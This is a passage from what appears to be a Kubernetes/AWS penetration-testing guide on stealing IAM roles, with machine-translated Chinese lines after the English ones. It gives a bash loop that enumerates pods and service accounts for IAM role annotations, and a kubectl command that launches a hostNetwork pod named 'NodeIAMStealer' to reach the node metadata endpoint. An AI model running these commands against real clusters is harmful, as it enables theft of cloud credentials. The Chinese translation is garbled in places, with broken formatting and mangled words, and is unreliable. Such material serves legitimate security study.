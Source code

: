 Moreover, if you are inside a pod, check for env variables like **AWS\_ROLE\_ARN** and **AWS\_WEB\_IDENTITY\_TOKEN.**

此外，如果您在吊舱内，请检查env变量，例如** aws \ _role \ _arn **和** aws \ _web \ _ nidentity \ _token。


{% endhint %}

## Find Pods a SAs with IAM Roles in the Cluster

##在集群中查找具有IAM角色的SAS

This is a script to easily **iterate over the all the pods and sas** definitions **looking** for that **annotation**:

这是一个脚本，可以轻松地**迭代所有POD和SAS **定义** ** for ** and **注释**：

```bash
for ns in `kubectl get namespaces -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
    for pod in `kubectl get pods -n "$ns" -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
        echo "Pod: $ns/$pod"
        kubectl get pod "$pod" -n "$ns" -o yaml | grep "amazonaws.com"
        echo ""
        echo ""
    done
    for sa in `kubectl get serviceaccounts -n "$ns" -o custom-columns=NAME:.metadata.name | grep -v NAME`; do
        echo "SA: $ns/$sa"
        kubectl get serviceaccount "$sa" -n "$ns" -o yaml | grep "amazonaws.com"
        echo ""
        echo ""
    done
done | grep -B 1 "amazonaws.com"
```

## Node IAM Role

The previos section was about how to steal IAM Roles with pods, but note that a **Node of the** K8s cluster is going to be an **instance inside the cloud**. This means that the Node is highly probable going to **have a new IAM role you can steal** (_note that usually all the nodes of a K8s cluster will have the same IAM role, so it might not be worth it to try to check on each node_).

Previos部分是关于如何使用Pod窃取IAM角色的，但是请注意，** K8S群集的一个**节点将是云**内的**实例。 这意味着该节点很可能会**有一个新的IAM角色，您可以窃取**（_ note通常，K8S群集的所有节点都会具有相同的IAM角色，因此可能不值得尝试尝试尝试。 检查每个节点_）。

There is however an important requirement to access the metadata endpoint from the node, you need to be in the node (ssh session?) or at least have the same network:

但是，从节点访问元数据端点的重要要求，您需要在节点（SSH会话？）中或至少具有相同的网络：

```bash
kubectl run NodeIAMStealer --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostNetwork": true, "containers":[{"name":"1","image":"alpine","stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent"}]}}'
```
